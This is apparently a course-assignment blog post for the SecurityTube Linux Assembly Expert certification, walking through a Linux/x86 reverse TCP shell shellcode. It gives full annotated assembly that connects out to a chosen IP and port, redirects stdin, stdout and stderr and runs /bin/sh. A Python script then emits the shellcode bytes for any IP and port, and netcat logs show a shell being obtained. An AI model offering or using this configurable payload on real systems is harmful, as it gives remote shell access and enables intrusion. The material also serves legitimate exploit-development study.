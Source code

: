 # Assignement 2 #

As part of the second exercise, it is requested to realize a shellcode allowing to obtain a distant shell.

The idea here is to create a socket at first the to make a connection giving an IP address and a port ID. The standard outputs stdin, stdout and stderr are redirected in order to be used once the connection is made by a distant shell. 

## Creation of a socket ##
The main reference in bibliography is the documentation of the system calls http://man7.org/linux/man-pages/man2/socketcall.2.html. The socketcall is used to define the actions on the socketsaccording to the call field. The value “1” indicates that we are interested in a socket creation. Here we have to point to a domain, a type and a protocol. protocole is set to IPPROTO_IP = 0,
the type is set to 1 (SOCK_STREAM) and the domain is set to 2 (AF_INET).

```c
	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack   args protocol 0
	inc ebx				; ebx = 1 = SYS_SOCKET = socket()
	push ebx			; push 1 onto the stack	  args SOCK_STREAM 1
	push byte 0x2			; push 2 onto the stack args AF_INET
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))
```

## Creation of the connection ##

We create in the same way the connection indicating the IP address and the logic port ID. We used the sockaddr structure in order to know about the various necessary elements. 

```c
	push 0x0101017f			; @Ip 127.1.1.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; we put the value 2 for AF_INET
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; SYS_CONNECT = connect()
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

At this stage, we redirect the 3 outputs to the socktfd via the system call système dup2.

```c
	xor ecx, ecx				; set ecx to 0
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _

```

## Shell execution ##
We are going to use execve, int execve(const char *filename, char *const argv[], char *const envp[]) in order to launch the shell.
It will be written as execve("/bin/sh", NULL, NULL).
Then, the shell(/bin/bash) is executed once the connection is made.

```c
	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)
```



## Code complet ##

```c
; SLAE - Assignment 2: Shell_reverse_Tcp shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS
; https://github.com/xophidia/Shellcode/blob/master/compile.sh
; Taille : 74 bytes



global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1
	push ebx			; push 1 onto the stack
	push byte 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))

	xchg edx, eax			; we need to save the result of socket function for later usage

	
	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f			; @Ip 127.0.0.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)

```

## Exécution ##

We use as in the first exercise the file test_shellcode.c with the same options of compilation.

On the first terminal:

```c
./test_shellcode
```

On the second terminal: 

```c
nc -l -p 4444 -v
pwd
/home/xophidia
```

```

## Improve the keying in of the Ip address and port ID ##

At this stage, we’ll use a python script.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Reverse TCP Shell")
    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
    args = parser.parse_args()

    ip = args.addressIp.split('.')
    port = args.port

    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
./createShellcode.py --address 127.1.1.1 --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
```

We compile again as in the previous exercise, then we test everything.

```c
nc -l 127.1.1.1 -p 1234 -v
Listening on [127.1.1.1] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763